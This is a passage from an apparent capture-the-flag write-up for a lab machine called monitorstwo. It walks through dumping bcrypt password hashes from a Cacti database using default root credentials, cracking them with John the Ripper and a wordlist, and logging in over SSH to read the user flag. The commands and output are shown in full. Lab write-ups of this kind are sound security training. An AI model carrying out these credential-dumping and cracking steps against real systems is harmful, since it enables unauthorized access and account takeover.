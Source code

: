 We can now iterate over some interesting tables to try to gather credentials to other users. We notice the table `user_auth` which contains password hashes for the users admin and marcus.

```bash
www-data@50bca5e748b0:/$ mysql --host=db --user=root --password=root cacti -e "show tables"
< --user=root --password=root cacti -e "show tables"
Tables_in_cacti
aggregate_graph_templates
aggregate_graph_templates_graph
aggregate_graph_templates_item
...
snmpagent_notifications_log
user_auth
user_auth_cache
user_auth_group
user_auth_group_members
user_auth_group_perms
user_auth_group_realm
user_auth_perms
user_auth_realm
user_domains
user_domains_ldap
user_log
vdef
vdef_items
version
www-data@50bca5e748b0:/$ mysql --host=db --user=root --password=root cacti -e "SELECT * FROM user_auth"
< --password=root cacti -e "SELECT * FROM user_auth"
admin   $2y$10$IhEA.**REDACTED**/iuqMft/llx8utpR1hjC
marcus  $2y$**REDACTED**/MhFYK4C
```

We can now use john the ripper to crack the hashes.

```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt             
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:12 0.00% (ETA: 2023-05-09 05:00) 0g/s 44.18p/s 88.37c/s 88.37C/s miranda..ilovehim
0g 0:00:00:14 0.00% (ETA: 2023-05-09 07:08) 0g/s 44.26p/s 88.52c/s 88.52C/s robbie..taurus
0g 0:00:00:15 0.00% (ETA: 2023-05-09 06:05) 0g/s 44.52p/s 89.05c/s 89.05C/s chacha..maldita
f**REDACTED**y      (?) 
```

We can use this password to SSH into marcus their account, where we can find the user flag.

```bash
marcus@monitorstwo:~$ ls -lah
total 28K
drwxr-xr-x 3 marcus marcus 4.0K Mar 22 12:13 .
drwxr-xr-x 3 root   root   4.0K Jan  5 09:51 ..
lrwxrwxrwx 1 root   root      9 Jan  5 10:12 .bash_history -> /dev/null
-rw-r--r-- 1 marcus marcus  220 Jan  5 09:51 .bash_logout
-rw-r--r-- 1 marcus marcus 3.7K Jan  5 09:51 .bashrc
drwx------ 2 marcus marcus 4.0K Mar 21 10:49 .cache
-rw-r--r-- 1 marcus marcus  807 Jan  5 09:51 .profile
-rw-r----- 1 root   marcus   33 May  4 16:46 user.txt
marcus@monitorstwo:~$ cat user.txt
6b**REDACTED**db
```

